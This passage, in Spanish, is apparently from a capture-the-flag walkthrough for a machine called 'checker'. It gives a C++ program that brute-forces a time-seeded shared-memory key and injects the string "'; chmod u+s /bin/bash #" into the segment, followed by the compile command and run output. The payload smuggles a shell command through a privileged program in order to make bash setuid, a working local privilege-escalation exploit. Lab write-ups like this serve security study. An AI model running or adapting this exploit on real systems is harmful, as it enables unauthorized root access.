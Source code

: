 ```cpp
#include <cstdlib>
#include <iostream>
#include <ctime>
#include <sys/shm.h>

using namespace std;

int main(int argc, char** argv){
  while(1){
    // Let's seed it
    time_t test = {0};
    time(&test);

    srand(test);

    int thing = rand() % 0xfffff; // stoi(id, 0, 16);
    int shm_id = shmget(thing, 1024, 0);
  
    if(shm_id == -1){
      continue;
    }

    char* buff = (char*) shmat(shm_id, 0, 0);

    if(buff == -1){
      perror("shmat: ");
      continue;
    }


    cout << "Now injecting content..." << endl;
    string inject = "Leaked hash detected at 1 > '; chmod u+s /bin/bash #";

    sprintf(buff, inject.c_str());
    shmdt(buff);

    cout << "Done!" << endl;
    return 0;
  }
}
```
{: file="shm_inject.cpp" }

Compilaremos esto con `g++ shm_inject.cpp -fpermissive -o shm_inject` (no voy a seguir el ISO C++ en este caso) y lo ejecutaremos en una sesión SSH aparte, mientras que en otra ejecutaremos el programa `check_leak` en cuestión unas cuantas veces, hasta que:

```bash
reader@checker:/tmp$ ./shm_inject
Now injecting content...
Done!
```
